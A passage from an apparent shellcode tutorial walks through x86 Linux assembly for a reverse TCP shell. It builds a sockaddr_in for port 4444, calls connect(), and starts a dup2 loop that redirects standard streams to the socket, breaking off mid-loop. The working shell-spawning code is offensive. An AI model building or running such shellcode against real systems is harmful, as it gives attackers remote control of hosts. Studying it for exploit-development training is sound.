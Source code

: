 * Pushing the port to bind. We are using port 4444 which is 0x115c Hex. Let's not forget we are using little-endian system, therefore we will push 0x5c11:
  ```
	;server.sin_port = htons(REMOTE_PORT);
	push word 0x5c11	; DEC 4444 -> HEX 0x115c
  ```

* Pushing *sin_family* argument, which is 2 for AF_INET:
  ```
	;server.sin_family = AF_INET;
	push word 0x02		; AF_INET = 2
  ```

Now that we have created the *sockaddr_in* structure in memory we can populate the registers with parameters for the connect() syscall:
* eax is set to 0x16a (DEC 362 which is the syscall number)
* ebx is set with the file descriptor from socket() syscall (stored in edi)
* ecx is set to pointer to the structure in memory (top of the Stack)
* edx, which was set to the top of the stack before creating the *sockaddr_in* structure in memory, is now set to the actual size of the structure by subtracting the new address of the top of the Stack.
```
;/ Connecting to the Server
;int ret = connect(socket_fd, (struct sockaddr *)&server, sizeof(server));
mov ax, 0x16a		; #define __NR_connect 362
mov ebx, edi		; ebx = socket_fd	
mov ecx, esp		; ecx = TOS (Pointer to server_address struct)
sub edx, ecx		; edx = (TOS Before struct) - TOS = size of struct
int 0x80
```

After the syscall, we will have eax set to 0 if the connect() has completed successfully, otherwise eax will contain the error code.
The code is therefore testing eax: if it is zero, the code continues; if eax is different from zero, the execution will jump to *_exit_error* label.
```
; Testing if connect() completed successfully	
test eax, eax		; Testing if EAX is zero
jnz _exit_error		; if eax!=0 exit with error
```

### dup2()
The `dup2()` function (syscall 63) duplicates a file descriptor. The prototype for this function is defined as follows:
```
int dup2(int oldfd, int newfd);
```
We need to execute this syscall 3 times, to duplicate the 3 file descriptors (STDIN, STDOUT and STDERR) to the file descriptor related to the connection socket created in the previous syscall and stored in esi.

Given that we need to perform the same action 3 times, we are then using a loop with ecx as both counter and argument pointing to the 3 standard file descriptors:
```
	;// Redirect STDIN(0), STDOUT(1) and STDERR(2) on Socked_FD
	;dup2(socket_fd, 0); 
	;dup2(socket_fd, 1);
	;dup2(socket_fd, 2);

	xor ecx, ecx		; ecx = 0
	mov cl, 0x3			; will need to loop 3 times. 	
_dup_loop:
	xor eax, eax
	mov al, 0x3f		; #define __NR_dup2 63
	mov ebx, edi		; ebx = socket_fd
	dec cl				; decrease ecx to get actual FD
	int 0x80
```